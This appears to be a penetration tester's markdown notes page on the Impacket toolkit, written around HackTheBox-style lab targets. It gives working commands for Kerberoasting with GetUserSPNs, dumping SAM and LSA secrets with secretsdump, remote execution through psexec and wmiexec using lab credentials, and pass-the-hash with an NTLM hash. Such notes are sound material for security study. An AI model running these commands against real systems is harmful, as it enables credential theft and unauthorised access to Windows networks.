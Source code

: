 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```

[Impacket](https://github.com/SecureAuthCorp/impacket) is a toolset built-in Python that provides us a way to interact with network protocols directly. Some of the most exciting tools we care about in Impacket deal with `psexec`, `smbclient`, `wmi`, Kerberos, and the ability to stand up an SMB server.

## Installation

```
python3 -m pipx install impacket
```

1. [Impacket Guide: SMB/MSRPC - Hacking Articles](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

## Usage
### Locating Credentials

```
sudo python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783
```

### Dump Credentials 

[impacket/examples/secretsdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

```shell-session
locate secretsdump 
```

```shell-session
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### Access with Credentials


`wmiexec.py 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'`

```
python psexec.py  active.htb/administrator:Ticketmaster1968@10.10.10.100
```

### SMB 

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB Guide]] 

1. Can use `psexec.py` to get reverse shell if write access to the entire system

#### Create SMB Server 

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

New versions of Windows block unauthenticated guest access, as we can see in the following command:

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
### SamRDump

```shell-session
samrdump.py 10.129.14.128
```

### RPCDump

[impacket/examples/rpcdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/rpcdump.py)

### SQL

[impacket/examples/mssqlclient.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py)

#### MSSQL

```shell-session
mssqlclient.py Administrator@10.129.201.248 -windows-auth
```

### WMI

```shell-session
wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname"
```

## Pass the Hash

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), see [[SSH Tunnelling#Chisel]]
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

## Impacket Ticket Converter

[impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) 